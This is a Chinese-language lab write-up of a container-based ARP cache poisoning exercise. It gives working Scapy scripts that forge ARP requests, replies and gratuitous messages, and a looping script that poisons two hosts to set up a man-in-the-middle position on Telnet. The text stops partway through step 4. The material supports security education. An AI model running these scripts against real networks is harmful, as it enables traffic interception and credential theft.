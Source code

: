 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# ARP Attack

## 任务 1：ARP 缓存中毒攻击

### 任务 1.A（使用 ARP 请求）

在容器 M 中运行 `ifconfig` 查看 MAC 地址：

![](../../../../../assets/Pasted%20image%2020250422221828.png)

同理，获得容器 A 的 MAC 地址：

![](../../../../../assets/Pasted%20image%2020250422222133.png)

在容器 M 中编写 Python 代码：

```python title="ARP_Request.py"
from scapy.all import *

A_IP = "10.9.0.5"
A_MAC = "ea:9c:17:47:e2:9e"
B_IP = "10.9.0.6"
M_MAC = "8e:ff:11:30:f1:57"

pkt = Ether(src = M_MAC, dst = A_MAC) / ARP(op = 1, psrc = B_IP, hwsrc = M_MAC, pdst = A_IP, hwdst = A_MAC)
sendp(pkt)
```

运行代码，在容器 A 中运行 `arp -n` 查看 ARP 缓存：

![](../../../../../assets/Pasted%20image%2020250422223002.png)

可以看到 B 的 IP 地址被映射到了 M 的 MAC 地址上，攻击成功
***
### 任务 1.B（使用 ARP 响应）

- 情景 1：B 的 IP 地址已经存在于 A 的缓存中

首先，我们在 B 中 `ping` A 更新 ARP 缓存，此时在 A 上看到：

![](../../../../../assets/Pasted%20image%2020250422223318.png)

在容器 M 中编写 Python 代码：

```python title="ARP_Response.py"
rom scapy.all import *

A_IP = "10.9.0.5"
A_MAC = "ea:9c:17:47:e2:9e"
B_IP = "10.9.0.6"
M_MAC = "8e:ff:11:30:f1:57"

pkt = Ether(src = M_MAC, dst = A_MAC) / ARP(op = 2, psrc = B_IP, hwsrc = M_MAC, pdst = A_IP, hwdst = A_MAC)
sendp(pkt)
```

运行代码，在容器 A 中运行 `arp -n` 查看 ARP 缓存：

![](../../../../../assets/Pasted%20image%2020250422224410.png)

可以看到缓存仍然被更新，攻击成功

- 情景 2：B 的 IP 地址不在 A 的缓存中

首先删除 ARP 中关于 B 的记录：

![](../../../../../assets/Pasted%20image%2020250422224557.png)

再次在 M 中运行代码，在容器 A 中运行 `arp -n` 查看 ARP 缓存：

![](../../../../../assets/Pasted%20image%2020250422224646.png)

可以看到 B 的 IP 地址不在 A 的缓存中，这说明 ARP 响应只能更新缓存内容，并不能新建缓存内容
***
### 任务 1.C（使用 ARP 免费消息）

- 情景 1：B 的 IP 地址已经存在于 A 的缓存中

和上面的一样，首先，我们在 B 中 `ping` A 更新 ARP 缓存，并在 M 中编写 Python 代码：

```python title="ARP_Gratuitous.py"
from scapy.all import *

B_IP = "10.9.0.6"
M_MAC = "8e:ff:11:30:f1:57"
broadcast = "ff:ff:ff:ff:ff:ff"

pkt = Ether(src = M_MAC, dst = broadcast) / ARP(op = 1, psrc = B_IP, hwsrc = M_MAC, pdst = B_IP, hwdst = broadcast)
sendp(pkt)
```

运行代码，在容器 A 中运行 `arp -n` 查看 ARP 缓存：

![](../../../../../assets/Pasted%20image%2020250422225649.png)

可以看到缓存仍然被更新，攻击成功

- 情景 2：B 的 IP 地址不在 A 的缓存中

删除 ARP 中关于 B 的记录后，再次运行代码，并在容器 A 中运行 `arp -n` 查看 ARP 缓存:

![](../../../../../assets/Pasted%20image%2020250422230000.png)

B 的 IP 地址仍然没在 A 的缓存当中
***
## 任务 2：使用 ARP 缓存中毒攻击在 Telnet 实施中间人攻击

### 步骤 1（发起 ARP 缓存中毒攻击）

在容器 M 中对 A 和 B 都进行 ARP 缓存中毒攻击，且设置每 5 秒 1 次：

```python title="ARP_Poison.py"
from scapy.all import *

A_IP = "10.9.0.5"
A_MAC = "ea:9c:17:47:e2:9e"
B_IP = "10.9.0.6"
B_MAC = "16:4c:eb:48:1a:7d"
M_MAC = "8e:ff:11:30:f1:57"

pktA = Ether(src = M_MAC, dst = A_MAC) / ARP(op = 2, psrc = B_IP, hwsrc = M_MAC, pdst = A_IP, hwdst = A_MAC)
pktB = Ether(src = M_MAC, dst = B_MAC) / ARP(op = 2, psrc = A_IP, hwsrc = M_MAC, pdst = B_IP, hwdst = B_MAC)

while True:
	sendp(pktA, count = 1)
	sendp(pktB, count = 1)
	time.sleep(5)
```

运行程序，通过 `arp -n` 查看运行程序前后 A 和 B 的 ARP 缓存变化：

![](../../../../../assets/Pasted%20image%2020250422232445.png)

![](../../../../../assets/Pasted%20image%2020250422232512.png)

攻击成功
***
### 步骤 2（测试）

首先关闭容器 M 的 IP 转发：

![](../../../../../assets/Pasted%20image%2020250422232729.png)

再次运行程序，并在主机 A 和 B 之间相互 ping：

![](../../../../../assets/Pasted%20image%2020250422232928.png)

![](../../../../../assets/Pasted%20image%2020250422232938.png)

可以发现 ping 不通，在宿主机运行 tshark 监听容器网络：

![](../../../../../assets/Pasted%20image%2020250422233151.png)

这是因为关闭 IP 转发（即关闭将接收到的数据包从一个网络接口转发到另一个网络接口的功能），当 B ping A 时，数据包到达 M，但因为 M 发现目标 IP 并不是自己的 IP，且未开启 IP 转发，就会将数据包丢弃，B 就自然而然并不会收到来自 A 的数据包
***
### 步骤 3（开启 IP 转发）

在容器 M 中开启 IP 转发：

![](../../../../../assets/Pasted%20image%2020250422234350.png)

再次运行程序，并在主机 A 和 B 之间相互 ping：

![](../../../../../assets/Pasted%20image%2020250422234828.png)

![](../../../../../assets/Pasted%20image%2020250422234842.png)

这时候可以 ping 通了
***
### 步骤 4（实施中间人攻击）

保持